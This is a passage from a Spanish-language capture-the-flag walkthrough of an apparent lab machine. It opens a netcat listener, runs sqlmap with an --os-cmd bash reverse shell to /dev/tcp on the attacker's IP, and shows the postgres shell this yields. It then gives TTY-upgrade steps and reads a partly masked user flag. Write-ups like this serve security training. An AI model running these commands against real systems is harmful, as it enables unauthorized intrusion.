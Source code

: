 - Intentamos crackear el `hash` pero tampoco van por ahí los tiros por lo que vamos a intentar si a través de `SQLMap` nos podemos entablar una `reverse-shell`
Nos ponemos en escucha por el puerto `443` en nuestra maquina
```bash
nc -nlvp 443
```

- Y ejecutamos el siguiente comando con `SQLMap`
```bash
❯ sqlmap -r request.txt -p username --batch --force-ssl --os-cmd 'bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"'
```

- Ganamos acceso al sistema
```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.236 50701
bash: cannot set terminal process group (2359): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
```

---------------
# TRATAMIENTO DE LA TTY
--------------
```bash
script /dev/null -c bash

CTRL + Z 

stty raw -echo;fg

reset xterm

export TERM=xterm

export SHELL=bash

stty rows 38 columns 183
```

---------------------
# ESCALADA DE PRIVILEGIOS
---------------

>Capturamos la `flag user`

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql$ cat user.txt 
f0183e4437**********  flag.txt
```

